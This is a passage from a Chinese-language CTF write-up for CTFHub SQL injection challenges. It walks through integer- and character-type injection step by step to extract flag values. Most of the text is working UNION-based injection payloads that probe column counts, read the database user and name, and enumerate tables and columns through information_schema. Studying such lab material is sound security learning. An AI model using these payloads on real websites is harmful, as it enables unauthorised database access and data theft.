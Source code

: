 `?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' and table_schema='sqli'`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641801912594-61ac51b8-8d42-41a6-8abb-2abae9d9811d.png)

得到flag字段，获取它:`?id=-1 union select 1,group_concat(flag) from flag`:

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641800167563-13357fcd-a506-4c9b-bfc8-5f7ab693df71.png)

`ctfhub{ffc2b0022acf76d079c196df}`

## 字符型注入
> 本题报错没有回显
>

和之前的相同：

`?id=1'`无回显

`?id=1''`正常回显

`?id=-1' or '1' and '1`正常回显

`?id=1' order by 3 --+ `报错，则该表中字段数为2

`?id=-1' union select 1,2 --+`该表中的ID、data的字段顺序为第一个和第二个

`?id=-1' union select user(),database() --+`用户名为root、表所处的数据库名为sqli（没有直接返回表名的函数）

`?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' --+ `（获取该数据库中的所有表：flag,id,data）

`?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' --+  `（获取flag表的字段：flag）

`?id=-1' union select 1,flag from flag --+ `:`ctfhub{531aa69814b1de55ae069e76}`

> 要理解sql语句每一句话的含义，这样很容易做题
>


